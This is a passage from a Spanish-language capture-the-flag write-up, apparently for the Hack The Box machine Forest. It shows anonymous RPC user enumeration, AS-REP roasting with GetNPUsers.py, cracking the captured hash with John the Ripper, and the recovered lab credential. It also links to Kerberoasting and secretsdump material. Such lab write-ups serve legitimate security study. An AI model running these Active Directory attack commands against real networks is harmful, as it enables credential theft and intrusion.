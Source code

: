 
```bash
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP "[.*?]" | grep -v "0x" | tr -d "[]" > users
```


{:.note}
Estamos agregando los usuarios a un diccionario users para proceder con el ataque [ASREPRoast].


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.


[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py


![list](/assets/img/forest/Kali-2022-09-13-22-56-08.png){:.lead width="800" height="100" loading="lazy"}


```bash
GetNPUsers.py htb.local/ -no-pass -usersfile users
```


{:.note}
Obtenemos un hash que gusrdaremos en un archivo llamado hash que prodeceremos a crackear con `John The Ripper`.


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La contraseña es`s3rvice` y el usuario es `svc-alfresco`.


***

## Explotation


Con cracmapexec verificamos si las credeciales son validas.


![list](/assets/img/forest/Kali-2022-09-13-23-09-14.png){:.lead width="800" height="100" loading="lazy"}


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.